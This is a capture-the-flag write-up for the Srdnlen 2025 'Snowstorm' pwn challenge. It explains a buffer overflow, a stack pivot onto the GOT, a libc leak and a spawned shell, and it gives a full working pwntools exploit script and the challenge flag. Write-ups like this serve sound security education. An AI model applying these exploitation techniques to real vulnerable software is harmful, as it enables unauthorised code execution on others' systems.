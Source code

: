 ```yaml
---
date: '2025-01-21T18:50:00Z'
draft: false
title: 'Srdnlen 2025 - Snowstorm'
summary: "Interesting pwn challenge regarding the exploitation of a simple stack BOF."

categories: ["Writeups"]
tags: ["pwn", "bof", "stack pivoting"]
author: "about:blankets"
ShowToc: true
---
```


> Most of the challenge was solved by @Lotus

## Overview

This challenge is really straight forward, stripping it down we get this:
```c
int len; // eax
_BYTE buf[40]; // [rbp-30h]
int v3; // [rbp-8h]
int fd; // [rbp-4h]

fd = check_open("./flag.txt", 0);
v3 = print_flag(fd); // sends the flag to /dev/null

len = ask_length();
read(0, buf, len);
close(fd);
close(v3);

return
```

## Vulnerability

Turns out that ask_length handles also hexadecimal numbers, so `0x40` can be passed as a length and thus we get a BOF.

Mitigations are on our side as well:
```
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
```

## Exploitation

**Wrapping it up**: we have a BOF of 24 bytes and we need to exploit it in order to leak libc and call system.

The path we took was the following:
#### Stack pivoting
1. Pivot the stack over the GOT
2. Jump back to `call ask_length` to gain BOF once more, but this time we write on the GOT
#### Leak libc
1. Overwrite `close@got` with the address of `call puts` at `pwnme+73`
2. As RBP points to the GOT we can trick the binary into believing that local variables reside on the GOT, thus we change `int fd` to the address of `puts@got`
3. When `close(fd)` gets called we end up with `puts(&puts@plt)`, this leaks libc and we can BOF once more

#### RCE

Applying the same strategy we used to leak libc we can call `system("/bin/sh")`. We actually ended up calling `do_system+2` to avoid stack unalignment pain.

#### Final Exploit
```python
#!/bin/env python3

import sys
from pwn import *

context.terminal = ["alacritty", "--working-directory", "./", "-e"]
elf = context.binary = ELF("./snowstorm_patched", False)
libc = ELF("./libc.so.6", False)
gs = \
"""
b *pwnme+155
continue
"""

def start(argv):
    if args.REMOTE:
        if len(argv) != 2:
            print(f"Usage:\t{argv[0]} <IP>:<PORT> REMOTE")
            return -1
        (IP, PORT) = argv[1].split(":")
        return remote(IP, int(PORT))
    elif args.GDB:
        return gdb.debug(elf.path, gs, aslr=False)
    else:
        return process(elf.path)

def main(argv):
    global io
    io = start(argv)
    if io == -1:
        return -1

    """
    0x404020 <close@got[plt]>:	0x0000000000401070	0x0000000000401080
    0x404030 <read@got[plt]>:	0x0000000000401090	0x00000000004010a0
    0x404040 <sendfile@got[plt]>:	0x00000000004010b0	0x00000000004010c0
    0x404050 <open@got[plt]>:	0x00000000004010d0	0x00000000004010e0
    0x404060 <sleep@got[plt]>:	0x00000000004010f0	0x0000000000000000
    0x404070:	0x0000000000000000	0x0000000000000000
    """

    io.sendafter(b"40): ", b"0x40")
    payload = b"A" * 0x30
    payload += p64(elf.got.close+0x30) # pivot stack into the got
    # `call ask_lenght`, so we can overflow again, we write at rbp-0x30
    payload += p64(elf.sym.pwnme+83)
    io.sendafter(b"> ", payload)
    io.sendafter(b"40): ", b"0x40")

    # override close@got with `call puts` (rerun BOF)
    payload = p64(elf.sym.pwnme+73) 
    payload += p64(0x401080)
    payload += p64(0x401090)
    payload += p64(0x4010a0)
    payload += p64(0x4010b0)

    # this overrides `int fd`
    # when close(fd) is called we get puts(&puts@plt)
    payload += p64((elf.got.puts<<32))
    payload += p64(0x4010d0)
    payload += p64(0x4010e0)
    io.sendafter(b"> ", payload)

    # leak libc
    libc.address = u64(io.recvline(False).ljust(8, b"\0")) - libc.sym.puts
    success(f"Libc base: {hex(libc.address)}")
    io.sendafter(b"40): ", b"0x40")

    # override close@got with do_system+2
    payload = p64(libc.address + 0x582c2)
    payload += p64(0x401080)
    payload += p64(0x401090)
    payload += p64(0x4010a0)
    payload += p64(0x4010b0)

    # this overrides `int fd`
    # when close(fd) is called we get system("/bin/sh")
    payload += p64((elf.got.close+0x30) << 32)
    payload += b"/bin/sh\0"
    io.sendafter(b"> ", payload)

    io.interactive()


if __name__ == "__main__":
    sys.exit(main(sys.argv))
```
 
**FLAG**: `srdnlen{39.22N_9.12E_4nd_I'll_C0n71Nu3_70_7R4n5M1t_7h15_M355463}`
